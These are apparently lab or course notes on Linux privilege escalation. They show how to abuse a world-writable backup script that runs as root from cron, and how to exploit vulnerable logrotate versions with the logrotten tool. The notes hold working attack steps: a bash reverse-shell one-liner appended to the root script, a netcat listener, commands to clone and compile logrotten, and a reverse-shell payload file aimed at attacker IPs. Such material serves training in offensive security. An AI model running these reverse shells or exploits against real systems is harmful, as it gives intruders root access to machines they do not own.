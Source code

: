 A quick look in the /dmz-backups directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration.
The second issue is that the backup.sh shell script is world writeable and runs as root
1. We can confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.
```
./pspy64 -pf -i 1000
```
2. The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan procfs every 1000ms (or every second)
3. From the above output, we can see that a cron job runs the backup.sh script located in the /dmz-backups directory and creating a tarball file of the contents of the /var/www/html directory
4. add a Bash one-liner reverse shell.
```
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```
5. netcat listener
```
nc -lvnp 443
```
# Logrotate
This tool is usually started periodically via cron and controlled via the configuration file /etc/logrotate.conf
1. we need to write permissions on the log files
2. logrotate myst run as a privileged user or root
3. vulnerable versions:
```
3.8.6
3.11.0
3.15.0
3.18.0
```
4. Download and compile logrotten exploiton a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system
```
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
```
```
logger@nix02:~$ cd logrotten
```
```
logger@nix02:~$ gcc logrotten.c -o logrotten
```
5. Determine which option logrotate uses in logrotate.conf.
```
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
## Steps for exploit
1. Create payload
```
echo 'bash -i >& /dev/tcp/10.10.14.211/9001 0>&1' > payload
```
2. Transfer logrotten.c to the machine
```
scp or wget
```